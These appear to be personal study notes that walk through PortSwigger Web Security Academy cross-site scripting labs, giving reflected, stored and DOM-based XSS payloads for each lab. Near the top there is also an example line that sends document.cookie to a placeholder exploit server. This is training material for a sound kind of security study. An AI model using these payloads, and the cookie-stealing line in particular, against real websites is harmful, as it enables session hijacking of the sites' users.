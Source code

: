 Payloads eg: <U>test123 , <script>alert(xss)</script>
exploit eg:  <script>document.location"https://exploit-server-link"+document.cookie</script>
(this extract the cookie of any user who visit xss vulnerable )

Link: https://portswigger.net/web-security/cross-site-scripting#what-is-cross-site-scripting-xss

cheat-sheet: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

Types of XSS:
1)Reflected XSS: https://portswigger.net/web-security/cross-site-scripting/reflected
2)Stored XSS: https://portswigger.net/web-security/cross-site-scripting/stored
3)
# 1)Lab: Reflected XSS into HTML context with nothing encoded
lab: https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded

```
 ####  Solution

1. Copy and paste the following into the search box:
    
    `<script>alert(1)</script>`
    
1. Click "Search".

```



# 2)Lab: Stored XSS into HTML context with nothing encoded

LAB: https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded

```
 ####  Solution

1. Enter the following into the comment box:
    
    `<script>alert(1)</script>`
2. Enter a name, email and website.
3. Click "Post comment".
4. Go back to the blog.
```


# 3)Lab: DOM XSS in `document.write` sink using source `location.search`

Lab:https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink

```

This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search`, which you can control using the website URL.

To solve this lab, perform a cross-site scripting attack that calls the `alert` function.




 ####  Solution

1. Enter a random alphanumeric string into the search box.
2. Right-click and inspect the element, and observe that your random string has been placed inside an `img src` attribute.
3. Break out of the `img` attribute by searching for:
    
    `"><svg onload=alert(1)>`
```

# 4)Lab: DOM XSS in `innerHTML` sink using source `location.search`

Lab: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink

```
This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an `innerHTML` assignment, which changes the HTML contents of a `div` element, using data from `location.search`.

To solve this lab, perform a cross-site scripting attack that calls the `alert` function.



 ####  Solution

1. Enter the following into the into the search box:
    
    `<img src=1 onerror=alert(1)>`
2. Click "Search".

The value of the `src` attribute is invalid and throws an error. This triggers the `onerror` event handler, which then calls the `alert()` function. As a result, the payload is executed whenever the user's browser attempts to load the page containing your malicious post.

 
```


# 5)Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

Lab: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink

```
This lab contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the jQuery library's `$` selector function to find an anchor element, and changes its `href` attribute using data from `location.search`.

To solve this lab, make the "back" link alert `document.cookie`.


 ####  Solution

1. On the Submit feedback page, change the query parameter `returnPath` to `/` followed by a random alphanumeric string.
2. Right-click and inspect the element, and observe that your random string has been placed inside an a `href` attribute.
3. Change `returnPath` to:
    
    `javascript:alert(document.cookie)`
    
    Hit enter and click "back".
```


# 6)Lab (imp): DOM XSS in jQuery selector sink using a hashchange event

LAb: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event

This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property.

To solve the lab, deliver an exploit to the victim that calls the `print()` function in their browser.

```
 ####  Solution

1. Notice the vulnerable code on the home page using Burp or the browser's DevTools.
2. From the lab banner, open the exploit server.
3. In the **Body** section, add the following malicious `iframe`:
    
    `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>`
4. Store the exploit, then click **View exploit** to confirm that the `print()` function is called.
5. Go back to the exploit server and click **Deliver to victim** to solve the lab.
```


# 7)Lab: Reflected XSS into attribute with angle brackets HTML-encoded

LAB: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded

Video: https://www.youtube.com/watch?v=8zis9TrZmfU

This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded. To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the `alert` function.

```
 ####  Hint

Just because you're able to trigger the `alert()` yourself doesn't mean that this will work on the victim. You may need to try injecting your proof-of-concept payload with a variety of different attributes before you find one that successfully executes in the victim's browser.
```

#### Solution

1. Submit a random alphanumeric string in the search box, then use Burp Suite to intercept the search request and send it to Burp Repeater.
2. Observe that the random string has been reflected inside a quoted attribute.
3. Replace your input with the following payload to escape the quoted attribute and inject an event handler:
    
    `"onmouseover="alert(1)`    or    "onmouseover='alert(1)' 
4. Verify the technique worked by right-clicking, selecting "Copy URL", and pasting the URL in the browser. When you move the mouse over the injected element it should trigger an alert.

```
i.e "onmouseover='alert(1)'  in this payload the ( " ) breaks out from the input string and then executes the function ( onmouseover='alert(1)' ) resulting in alert message pop up as '1' every time there is a mouse movement.
```



